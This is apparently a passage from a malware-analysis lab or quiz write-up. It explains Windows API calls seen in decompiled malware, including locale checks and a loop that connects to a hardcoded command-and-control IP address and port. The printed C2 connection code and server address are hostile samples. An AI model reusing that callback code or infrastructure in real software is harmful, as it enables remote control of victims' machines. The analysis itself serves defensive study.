 **72**

## 2. What is the name of the enumeration type for the first parameter of GetLocaleInfoA?
```bash
KeyboardLayout = (unsigned int)GetKeyboardLayout(0);
  GetLocaleInfoA(KeyboardLayout, 0x5Au, (LPSTR)&v237, 3);
  GetLocaleInfoA(0x400u, 0x5Au, (LPSTR)&v236, 3);
```
- Follow ms about `GetLocaleInfoA`
```bash
int GetLocaleInfoA(
  LCID   Locale,     // <-- first parameter
  LCTYPE LCType,
  LPSTR  lpLCData,
  int    cchData
);
```
- LCID stands for Locale Identifier.It's a 32-bit value that uniquely identifies a particular locale:
    - LOCALE_USER_DEFAULT (0x0400)
    - LOCALE_SYSTEM_DEFAULT (0x0800)
Ex:
```bash
LCID lcid = MAKELCID(LANG_ENGLISH, SORT_DEFAULT);
GetLocaleInfoA(lcid, LOCALE_SLANGUAGE, buffer, bufferSize);
```

**LOCALE_USER_DEFAULT**

## 3. What protocol is used by the malware to communicate with the C2 server?
```bash
 while ( 1 )
  {
    v199 = socket(2, 1, 0);
    if ( v199 == -1i64 )
    {
      WSACleanup();
      return 1;
    }
    v218.sa_family = 2;
    *(_DWORD *)&v218.sa_data[2] = inet_addr("185.107.74.40");
    *(_WORD *)v218.sa_data = htons(0xC3Bu);
    if ( connect(v199, &v218, 16) >= 0 )
      break;
    closesocket(v199);
    Sleep(0x1388u);
  }
```
- refer to document
```bash
SOCKET socket(int af, int type, int protocol);
```
> af = 2 → AF_INET (IPv4)
